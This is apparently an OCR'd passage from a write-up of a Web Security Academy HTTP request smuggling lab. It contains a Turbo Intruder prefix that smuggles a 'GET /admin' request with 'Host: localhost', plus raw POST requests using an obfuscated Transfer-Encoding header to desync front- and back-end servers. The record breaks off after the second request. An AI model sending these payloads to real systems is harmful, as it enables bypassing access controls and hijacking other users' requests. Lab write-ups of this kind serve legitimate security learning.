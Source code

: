 
---
Response:

---

`
```
                   </header>
                    <header class="notification-header">
                    </header>
                    Admin interface only available to local users
                </div>
            </section>
```
`


-----
_Now turbo truder looked like this:

>    # This will prefix the victim's request. Edit it to achieve the desired effect.
`prefix = '''GET /admin HTTP/1.1
`Host: localhost
>
`x=x'''
>

---

And three successive requests did it:

1.

---

POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0


2.

---

POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
